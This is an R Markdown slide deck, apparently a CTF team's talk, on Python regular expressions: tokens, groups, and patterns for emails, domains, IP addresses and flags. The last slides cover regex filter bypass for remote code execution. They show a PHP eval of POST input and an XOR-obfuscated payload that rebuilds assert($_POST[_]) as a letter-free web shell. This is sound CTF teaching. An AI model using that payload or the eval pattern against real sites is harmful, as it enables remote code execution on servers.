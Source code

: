 ```yaml
---
title: "Regex Rump"
subtitle: "Or how to stop using 4 .split() when doing python"
author: "DaVinciCode"
date: "20/01/2021"
output:
  beamer_presentation:
    theme: "Madrid"
    colortheme: "beaver"
    fonttheme: "structurebold"
    latex_engine: xelatex
    includes:
      in_header: header.tex
classoption: "aspectratio=169"
---
```


```r
library(knitr)
knitr::opts_chunk$set(tidy.opts = list(width.cutoff = 60), tidy = TRUE)
```




# Regex (Regular expression)
```r
include_graphics("images/61uxl1.jpg")
```


# Intro

## Patterns?
- emails
- domains names
- ip addresses
- phone numbers
- flags?
- etc...

# To follow along
https://regex101.com/

# Tokens
Python tokens, because yes, like sign language, people thought "why not make 30+ regex different flavors"
```r
include_graphics("images/61v0zd.jpg")
```

# Tokens
## Matching strings
```
^     => Start of a string
$     => End of a string
[abc] => match either a b or c
[a-c] => Match everything between a and c
.     => Match every single char
```
## Numeration
```
?     => Match zero or one
+     => one or more
*     => zero or more
{n}   => match n time
{n,m} => match between n and m times
```

# More tokens
## Special chars
```
\s    => Whitespace chars
\S    => Non-WhiteSpace chars
\w    => Word char
\d    => Digit
\b    => Word boundary
```

## Groups
```
(?:...)  => Matching group
(...)    => Group
(?#...)  => Comment group
(?=...)  => Positive lookahead
(?!...)  => Negative lookahead
(?<=...) => Positive lookbehind
(?<!...) => Negative lookbehind 
```

# Patterns
```r
include_graphics("images/regex.png")
```

# Patterns

## Patterns
```python
# emails
regex = re.compile(r'''([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+
(\.[A-Z|a-z]{2,})+''')
# domains names
regex = r'''(([\da-zA-Z])([_\w-]{,62})\.){,127}(([\da-zA-Z])[_\w-]{,61})?
([\da-zA-Z]\.((xn\-\-[a-zA-Z\d]+)|([a-zA-Z\d]{2,})))'''
# ip addresses
regex = """^((25[0-5]|2[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])\.){3}(25[0-5]|2
[0-4][0-9]|1[0-9][0-9]|[1-9]?[0-9])$"""
# flags?
regex = r"dvCTF{\S{3,}}"
```


# More stuff no know by heart?
## Options
```
i => case insensitive
m => multiline
s => single line
...
```

# Please stop, I can only learn so much
```r
include_graphics("images/an2lhgcr9kc61.png")
```

# CTF challs
```r
include_graphics("images/61yti3.jpeg")
```

# CTF challs
Get easy RCE
```php
preg_replace(patterns, replacements, input, limit, count)
```
```r
include_graphics("images/preg_replace.JPG")
```

# Learn regex to bypass regex

## Know your regex
```php
if (!preg_match('\[a-z0-9]/si',$_POST['cmd'])) {
  eval($_POST['cmd']);
}
else
{
  echo 'Nope';
}
```

## Make php use XOR 
```php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```




# Thank you
```r
include_graphics("images/gu4n3392l4w61.png")
```